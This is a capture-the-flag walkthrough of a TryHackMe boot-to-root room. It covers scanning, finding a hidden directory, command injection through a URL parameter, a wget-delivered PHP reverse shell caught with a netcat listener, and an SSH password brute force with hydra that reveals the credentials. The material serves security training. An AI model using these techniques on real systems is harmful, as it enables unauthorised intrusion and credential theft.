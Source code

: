 ## Boot2Root BootCamp [THM]



Link: https://tryhackme.com/room/boot2rootbootcamp

Goal: user.txt and root.txt

## nmap
```
nmap -sC -sV 10.10.0.138 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:21 EDT
Nmap scan report for 10.10.0.138
Host is up (0.24s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:e3:e7:8d:9b:87:30:20:54:1a:e7:f8:13:67:20:ca (RSA)
|   256 6d:e0:a0:84:28:52:cc:9f:52:90:56:90:d4:68:fb:33 (ECDSA)
|_  256 07:ee:49:b0:03:ca:4f:a4:bd:ae:ae:0d:80:36:8e:ac (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/th15_1mp0551bl3_t0_f1nd/
|_http-title: Hello There!
1152/tcp  filtered winpoplanmess
2725/tcp  filtered msolap-ptp2
3370/tcp  filtered satvid-datalnk
6667/tcp  filtered irc
7000/tcp  filtered afs3-fileserver
16016/tcp filtered unknown
19801/tcp filtered unknown
25734/tcp filtered unknown
27355/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.19 seconds
```
- port 22 open
- port 80 open

## view web [port 80]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/a9305310-0b93-4910-82b4-cde266bd1bc4)

## dirsearch

```
dirsearch -u 10.10.0.138 
                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/

[10:33:37] Starting:                                            
[10:34:35] 200 -  938B  - /images/                                                 
[10:34:36] 200 -  535B  - /index.html                                       
[10:34:54] 200 -   50B  - /robots.txt                                       
                                                                             
Task Completed
```
- /robots.txt

## robots.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/da0afcd7-0136-4c29-a022-2b3fd404a49b)

- found directory /th15_1mp0551bl3_t0_f1nd/

## dirsearch /th15_1mp0551bl3_t0_f1nd/

```
dirsearch -u 10.10.0.138/th15_1mp0551bl3_t0_f1nd/
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/

[10:39:10] Starting:                   
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php                
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php/login/         
                                                                            
Task Completed 
```

- /th15_1mp0551bl3_t0_f1nd/index.php

## index.php

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cfe24485-2750-49dc-aa76-f5513722915a)

- the bold "please" maybe a hint for this page

## exploit using parameter please [basic RCE]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/c954b127-5ed3-4492-bc76-baa7790e0848)

- payload `index.php?please=whoami`

## upload reverse shell using wget

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b4aaad46-51fa-438a-83a1-b7cfcfd51cbb)

- create php reverse shell, open python web server `python3 -m http.server <port>` to transfer from local to server

## setup netcat listener

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/caeae79e-b4e0-4244-9905-b3616c7e19a5)

- goto `http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/rev.php` dont forget to open listener `nc -lnvp 1337` on terminal
- `python3 -c 'import pty;pty.spawn("/bin/bash")'` to upgrade shell
- `export TERM=xterm` enable clear

## cd /home/human

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/87a0bdbe-4a58-4d8d-b548-36ccc42c9834)

- user.txt
- password_list.txt

## user.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/97c1876b-a001-405c-97a2-6701a32042a9)

## download password_list.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/fd7f31df-c871-4759-b906-31a07e1a3374)

- same process with upload reverse shell, but this from server to local

## hydra [bruteforce ssh password]

```
hydra -l human -P password_list.txt 10.10.0.138 ssh -t 4 -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 4 tasks per 1 server, overall 4 tasks, 38 login tries (l:1/p:38), ~10 tries per task
[DATA] attacking ssh://10.10.0.138:22/
[22][ssh] host: 10.10.0.138   login: human   password: cuteyadmin
```

- found Username: human, Password: cuteyadmin
